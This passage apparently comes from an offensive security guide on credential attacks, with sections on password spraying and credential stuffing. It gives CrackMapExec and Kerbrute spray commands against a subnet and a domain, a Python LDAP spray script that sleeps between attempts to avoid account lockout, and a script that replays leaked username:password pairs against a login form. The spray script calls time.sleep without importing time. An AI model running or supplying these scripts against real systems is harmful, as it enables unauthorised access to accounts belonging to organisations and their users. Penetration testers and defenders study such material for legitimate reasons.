 ### 5.1 Password Spraying

```powershell
# CrackMapExec password spray
crackmapexec smb 192.168.1.0/24 -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute password spray
kerbrute passwordspray -d corporate.local users.txt 'Password123!'
```

**Custom Password Spray Script**:
```python
import ldap3
from ldap3 import Server, Connection, ALL

def password_spray(domain, users_file, password, dc_ip):
    """Spray single password against multiple users"""
    
    with open(users_file, 'r') as f:
        users = [line.strip() for line in f.readlines()]
    
    server = Server(dc_ip, get_info=ALL)
    
    valid_creds = []
    
    for user in users:
        try:
            conn = Connection(server, user=f"{domain}\\{user}", password=password)
            
            if conn.bind():
                print(f"[+] Valid credentials: {user}:{password}")
                valid_creds.append((user, password))
                conn.unbind()
            else:
                print(f"[-] Failed: {user}")
                
        except Exception as e:
            print(f"[!] Error with {user}: {e}")
        
        # Sleep to avoid lockout
        time.sleep(30)
    
    return valid_creds
```

### 5.2 Credential Stuffing

```python
import requests

def credential_stuffing(url, credentials_file):
    """Test leaked credentials against target"""
    
    with open(credentials_file, 'r') as f:
        for line in f:
            username, password = line.strip().split(':')
            
            response = requests.post(url, data={
                'username': username,
                'password': password
            })
            
            if "Welcome" in response.text:
                print(f"[+] Valid: {username}:{password}")
```

